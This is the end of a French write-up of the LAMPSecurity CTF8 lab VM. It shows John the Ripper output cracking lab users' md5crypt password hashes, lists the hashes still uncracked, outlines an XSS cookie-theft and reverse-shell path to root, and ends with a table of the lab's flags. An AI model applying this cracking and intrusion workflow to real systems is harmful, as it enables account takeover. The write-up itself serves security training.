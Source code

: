 ```console
georgerules      (gprune)
broney           (tmaloney)
workpass         (jgrimes)
sellsellsell     (sswiney)
1unicorn1        (sloreman)
14g 0:00:41:32 DONE (2018-12-12 12:12) 0.005616g/s 5752p/s 38354c/s 38354C/s       7..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
```

Seuls les mots de passe de ```jgoldman```, de ```jingersol```, de ```jstone``` et de ```xbruce``` résistent encore et toujours à l'envah\^W\^W John The Ripper.

```console
root@blinils:~# john etccreds.db
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 19 password hashes with 19 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Remaining 5 password hashes with 5 different salts
Press 'q' or Ctrl-C to abort, almost any other key for status
MasterMaster     (hplink)
1g 0:00:01:14  3/3 0.01345g/s 9809p/s 39962c/s 39962C/s 254230..254225
Use the "--show" option to display all of the cracked passwords reliably
Session aborted

root@blinils:~# john etccreds.db --show=left
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
jgoldman:$1$9RY2iB2c$LlD4Q0sKNm9xte7rE7Rwe0
jingersol:$1$Q8SgQwJQ$oziDoU20KBQOCA2SiZGv81
jstone:$1$tITesQJm$yxQjQrgbEBgIXbzaf6PWM1
xbruce:$1$BaCfmLl6$7k5Et1qS.SK3Xn5nggWT/.

15 password hashes cracked, 4 left
```

Encore un grand merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour avoir créé toutes ces chouettes VM LAMPSecurity ! Visiblement, la solution officielle proposée par l'auteur consiste à récupérer le cookie de session d'un profil administrateur Drupal, via une _Cross-Site Scripting_ dans le formulaire de contact. Une fois sur Drupal, un [_reverse shell_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) doit alors être déposé pour prendre la main sur le serveur. Il est toujours intéressant de constater, tout comme les VM [Raven](/CTF-VulnLabs/raven2), que beaucoup de chemins mènent à root ! Peut-être y avait-il une autre possibilité d'exploitation, via les nombreuses connexions VNC au serveur trouvées lors du scan nmap ? Mystère.

## Bonus : les flags de LAMPSecurity: CTF8

La liste se veut exhaustive mais un flag m'aura peut-être échappé.

```console
+----------------------------------------+-----------------+------------------------------------------+ 
| flag                                   | (md5(md5(flag)) | Where?                                   | 
+----------------------------------------+-----------------+------------------------------------------+ 
| #flag#550e1bafe077ff0b0b67f4e32f29d751 | 12345678        | http://192.168.56.102/phpinfo.php        | 
| #flag#57dbe55b42b307fb4115146d239955d0 | browarprezes    | http://192.168.56.102/content/hidden     | 
| #flag#4db00563d4181dc8d1dfd3b5cd6dc708 | HeloWorld       | http://192.168.56.102/robots.txt         | 
| #flag#550e1bafe077ff0b0b67f4e32f29d751 | 12345678        | http://192.168.56.102/content/about      | 
```